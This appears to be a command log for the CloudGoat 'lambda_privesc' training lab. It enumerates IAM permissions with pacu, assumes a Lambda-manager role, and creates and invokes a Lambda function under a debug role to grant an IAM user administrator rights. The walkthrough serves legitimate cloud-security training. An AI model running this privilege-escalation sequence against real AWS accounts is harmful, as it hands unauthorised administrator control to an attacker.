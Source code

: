 ```bash
#Start Up
cloudgoat create lambda_privesc
aws configure --profile lambda_priv

#Enumeration of chris & environment
aws sts get-caller-identity --profile lambda_priv
pacu
    import_keys
    run iam__enum_permissions
    run iam__enum_users_roles_policies_groups
exit

aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-lambdaManager-policy-cgidasldh6kuco --version-id v1 --profile chris

#Assume the new role
aws sts assume-role --role-arn arn:aws:iam::381491899745:role/cg-lambdaManager-role-cgidasldh6kuco --role-session-name escalateSession --region us-east-1 --output json --profile lambda_priv
aws configure --profile lambda_priv
aws configure set profile.lambda_priv_new.aws_session_token TOKEN
aws sts get-caller-identity --profile lambda_priv_new

#Attack!
#Create the exploit script
aws lambda create-function --function-name escalate-admin-cg --runtime python3.9 --role arn:aws:iam::381491899745:role/cg-debug-role-cgidasldh6kuco --handler lambda_function.lambda_handler --zip-file fileb://payload.zip --region us-east-1 --profile lambda_priv_new
aws lambda invoke --function-name escalate-admin-cg output.txt --region us-east-1 --profile lambda_priv_new
aws iam list-attached-user-policies --user-name chris-cgidasldh6kuco --region us-east-1 --profile lambda_priv

#Shut down
cloudgoat destroy lambda_privesc
aws lambda delete-function --function-name escalate-admin-cg
```

```

```
